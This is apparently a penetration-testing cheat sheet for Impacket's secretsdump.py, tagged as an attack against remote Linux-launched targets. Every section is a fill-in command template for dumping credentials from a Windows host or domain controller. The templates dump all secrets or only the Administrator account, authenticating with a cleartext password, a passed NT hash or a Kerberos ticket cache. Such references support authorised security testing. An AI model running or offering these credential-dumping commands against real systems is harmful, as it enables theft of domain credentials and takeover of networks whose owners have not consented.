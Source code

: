 # secretsdump
#plateform/linux #target/remote #cat/ATTACK

## Dump all secrets with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip>
```

## Dump Administrator with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip> -just-dc-user <target_user|Administrator>
```

## Dump all secrets with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash>
```

## Dump Administrator with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash> -just-dc-user <target_user|Administrator>
```

## Dump Administrator with ccache
```
secretsdump.py <FQDN.DOMAIN.LOCAL> -k 
```

